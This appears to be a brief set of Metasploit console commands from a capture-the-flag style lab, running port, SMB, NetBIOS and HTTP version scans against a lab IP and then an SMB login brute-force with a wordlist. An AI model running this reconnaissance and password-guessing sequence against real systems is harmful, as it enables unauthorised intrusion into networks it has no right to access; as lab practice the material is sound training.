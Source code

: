 setg rhosts 10.10.148.128
use auxiliary/scanner/portscan/tcp
run

search smb_version
use auxiliary/scanner/smb/smb_version
run

search netbios
use auxiliary/scanner/netbios/nbname
run

search http_version
show options
setg rport 8000
use auxiliary/scanner/http/http_version
run

search smb_login
show options
set rport 445
setg SMBUser testuser
setg PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
run
